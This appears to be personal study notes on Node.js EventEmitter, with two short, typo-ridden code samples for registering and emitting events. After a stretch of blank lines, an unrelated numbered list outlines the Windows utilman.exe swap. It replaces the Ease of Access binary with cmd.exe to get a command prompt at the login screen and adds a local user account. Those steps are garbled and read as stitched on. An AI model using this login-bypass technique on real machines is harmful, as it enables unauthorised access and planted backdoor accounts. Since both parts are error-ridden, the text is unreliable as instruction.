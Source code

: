 > event emiiter is just like trigger and action just like js when onClick event just like that

```node
const emitter = require('events');

const { EventEmitter } = require('stream');

  

const myemit = new EventEmitter(); //delcare the event emmiter

  

//REGISTER THE EMITTER

myemit.on("greeet",(name)=>{

    console.log(`my name is ${name}`)

})

//Calll the emitter

myemit.emit('greeet',"Raj");
```

## Cutom eventEmitter code

```node
const EventEmitter = require('events');

  

class MycustomEmiter extends EventEmitter{

    constructor(){ //Creating a constructor

        super();

        this.greeting = 'Hello';

    }

    greet(name){

        this.emit('greeting',`${this.greeting}, ${name}`);

    }

}
  

const thisWIllEmit = new MycustomEmiter();

  

thisWIllEmit.on('greeting',(input)=>{

    console.log('greeting event',input)

});

thisWIllEmit.greet("Bro");
```

















1. Navigate to windows 32
2. ren cmd to utilman2.exe
3. ren utilman.exe cmd.exe
4. utilman2 utilman
5. net user <>username> passwd /add
6. netplivz